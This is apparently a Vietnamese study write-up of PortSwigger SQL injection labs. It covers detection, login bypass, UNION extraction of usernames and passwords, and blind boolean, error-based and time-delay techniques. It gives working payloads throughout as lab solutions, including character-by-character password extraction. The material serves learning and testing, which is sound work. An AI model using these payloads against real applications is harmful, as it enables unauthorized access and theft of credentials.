# SQL injection (SQLi) là gì?

- SQL (SQLi) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện đối với cơ sở dữ liệu của nó. Điều này có thể cho phép kẻ tấn công xem dữ liệu mà thông thường chúng không thể truy xuất được. Điều này có thể bao gồm dữ liệu thuộc về người dùng khác hoặc bất kỳ dữ liệu nào khác mà ứng dụng có thể truy cập. Trong nhiều trường hợp, kẻ tấn công có thể sửa đổi hoặc xóa dữ liệu này, gây ra những thay đổi liên tục đối với nội dung hoặc hành vi của ứng dụng.

# Cách phát hiện lỗ hổng SQLi

- Sử dụng `'` để kiểm tra
- Một số cú pháp SQL
- Câu điều kiện boolean `OR 1=1, OR 1=2`
- Thời gian delay trong truy vấn SQL

# Một số SQLi cơ bản

## Retrieving hidden data (Truy xuất dữ liệu ẩn)

- Hướng tấn công sẽ là leak các dữ liệu cá nhân như password, thông tin cá nhân, ...
- Lấy một ví dụ để minh hoạ

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

- SELECT tất cả phần tử FROM bảng product ở cột category các hàng Gifts sẽ được in ra

```
SELECT * FROM prducts WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

- Khi câu truy vấn ở trên được thực hiện sẽ chọn các hàng từ bản product có cột category là Gift và OR 1=1 (do luôn đúng) nên sẽ in ra tất cả các hàng trong product

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data


#### Phân tích

- Ở đây ta thấy đề cho ta một câu truy vấn SQL kiểm tra loại và đã release chưa và đề yêu cầu ta leak hết các sản phẩm chưa được release
- Để có thể leak được các sản phẩm chưa được release thì ta cần làm thoả điều kiện AND release = 1 bằng OR 1=1

#### Solution

- Accessories' OR 1=1 --'

## Subverting application logic

- Giả sử khi ta đăng nhập vào một trang web cần username và password, khi chương trình truy vấn sẽ kiểm tra với username đó thì password vừa rồi có đúng hay không

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

- Tuy nhiên khi có SQLi, ta có thể thay đổi logic từa username == true và password == true thành chỉ còn username == true

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

- Do '-- sẽ comment các câu truy vấn sau nó nên câu truy vấn chỉ còn kiểm tra username

### Lab: SQL injection vulnerability allowing login bypass



- Đề bài yêu cầu chúng ta đăng nhập vào `administrator `

#### Solution

administrator'--

## Retrieving data from other database tables

- Trong trường hợp từ bảng này nhưng bạn muốn truy vấn ở một table khác thì câu truy vấn UNION có thể giúp ích

```
SELECT ...
UNION SELECT ...
```

---

# SQL injection UNION attacks

`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

- Một số yêu cầu khi sửa dụng UNION
  - Các truy vấn phải trả về cùng số cột
  - Các kiểu dữ liệu của mỗi cột phải tương thích với nhau
- Vì vậy trước khi tấn công bằng UNION ta cần kiểm tra:
  - Có bao nhiêu cột được trả về từ truy vấn ban đầu
  - Những cột được trả về từ truy vấn ban đầu có kiểu dữ liệu phù hợp với các cột được chèn không

## Kiểm tra có bao nhiêu cột

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

## Xác định kiểu dữ liệu của cột

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

# Using a SQL injection UNION attack to retrieve interesting data

## Lab: SQL injection UNION attack, retrieving data from other tables

### Kiểm tra bao nhiêu cột



### Kiểm tra kiểu dữ liệu



### Solution

- Do ta cần 2 cột kiểu string nên ở dây ta có thể leak được các tài khoản
  

# Retrieving multiple values within a single column

- Ở trường hợp trên, ta có 2 cột ban đầu phù hợp với 2 cột ta thêm vào. Tuy nhiên trong trường hợp chỉ có 1 cột phù hợp, ta có cách sau. Ví dụ trên Oracle:
  `' UNION SELECT username || '~' || password FROM users--`
  - Ta sử dụng || để nối chuỗi và user và pass được ngăn cánh với nhau bằng `~` (ta có thể thay ~ bằng kí tự khác)

## Lab: SQL injection UNION attack, retrieving multiple values in a single column

### Kiểm tra số lượng cột



### Kiểm tra kiểu dữ liệu


### Leak administrator



---

# Blind SQL injection

## Exploiting blind SQL injection by triggering conditional responses

- Ta sẽ tận dụng việc trả lời đúng sai của chương trình để kiểm tra từng kí tự của mật khẩu, thông tin ...
- `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'm`
- `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
  SUBSTRING(string, start_position, length)
- Trong đó:
  - string là chuỗi mà bạn muốn trích xuất phần tử.
  - start_position là vị trí bắt đầu trích xuất. Vị trí đầu tiên trong chuỗi là 1.
  - length là độ dài của phần được trích xuất.

### Lab: Blind SQL injection with conditional responses

#### Kiểm tra bảng users

`' AND (SELECT 'a' FROM users LIMIT 1)='a`

#### Kiểm tra hàng administrator

`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

#### Kiểm tra số lượng kí tự của password

`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a`

#### Dò password

- Setup
  
  
  

## Error-based SQL injection

### Exploiting blind SQL injection by triggering conditional errors

- Có một số chương trình khi truy vấn xong trả về đúng hay sai cũng không trả về kết quả.
- Tuy nhiên ta có thể sử dụng câu điều kiện SELECT CASE WHEN ... THEN ... ELSE ... END
- Ý tưởng sẽ là nếu đúng sẽ trả về lỗi truy vấn còn sai sẽ trả về truy vấn đúng (hoạt động bình thường)
- Ví dụ sau:
- `AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'`
  - trong trường hợp 1=2 sai 'a' = 'a' đúng, chương trình hoạt động bình thường
  - trong trường hợp 1=2 đúng 1/0 sẽ báo lỗi truy vấn

#### Lab: Blind SQL injection with conditional errors

### Kiểm tra phiên bản

```
'||(SELECT '')||'
'||(SELECT '' FROM dual)||'
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

=> Oracle

### Kiểm tra độ dài password

```
'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### Setup burpsuite

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

## Extracting sensitive data via verbose SQL error messages

- Lỗ hổng này sẽ tận dụng việc chương trình hiển thị lỗi truy vấn khiến ta có thể leak được thông tin
  

### Lab: Visible error-based SQL injection

- Với payload `' AND 1=CAST((SELECT 1) AS int)--` ta thấy chương trình hoạt động bình thường
- Do and sẽ cần trả về kiểu boolean nên ta cần có 1=CAST((SELECT 1) AS int)
- `' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
  
  - LIMIT 1 là để chỉ nhận một hàng thôi vì cast chỉ nhận 1 hàng
- `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
  - Lấy password

=> đây là ta chỉ có thể truy vấn với dòng đầu tiên, tuy nhiên ta có thể sử dụng offset để truy vấn các dòng sau

## Exploiting blind SQL injection by triggering time delays

- Sau khi truy vấn dù kết quả đúng hay sai sẽ không có kết quả trả về
- Tuy nhiên ta có thể sử dụng time delay để nhận biết kết quả trả về đúng hay sai

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- Nếu 1=1 đúng thì sẽ delay 10s
- Nếu 1=2 sai thì sẽ không delay

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

# Blind SQL injection with time delays and information retrieval

- Kiểm tra câu điều kiện
  `x'%3bselect case when (1=1) then pg_sleep(10) else pg_sleep(0) end--`
- Kiểm tra length
  `x'%3bselect case when (username='administrator' and length(password) = 20) then pg_sleep(5) else pg_sleep(0) end from users--`
- setup cho dò password
  
  

# Tham khảo

https://portswigger.net/web-security/sql-injection/cheat-sheet/
